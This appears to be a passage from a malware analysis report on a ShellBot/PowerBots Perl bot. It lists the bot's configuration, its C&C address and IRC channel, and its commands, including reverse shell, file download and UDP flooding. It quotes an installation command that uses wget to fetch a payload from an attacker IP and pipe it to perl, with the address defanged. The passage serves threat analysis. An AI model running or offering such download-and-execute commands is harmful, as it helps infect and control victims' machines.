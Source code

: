 Configuration data of PowerBots:

Filename:ff
Installation Command:

uname -a ;wget -qO – hxxp://80.68.196[.]6/ff|perl &>>/dev/null



Command used to install PowerBots:
Filename:ff

Channel Name:#x

C&C URL:49.212.234[.]206:3303


C&C URL and channel of DDoS PBot v2.0
ShellBot types usually offer a variety of DDoS attack features, but since PowerBots mainly focuses on its reverse shell and file downloading capabilities, it is likely that the threat actor installed ShellBot as a backdoor.

Command
Description




Command
Description



Command :ps
Description: Port scanning
Command:namp
Description: NMAP port scanning

NMAP port scanning
rm
Delete files in a particular path
version
Version information output
down
File download
udp
UDP Flooding attack
back
Reverse Shell


















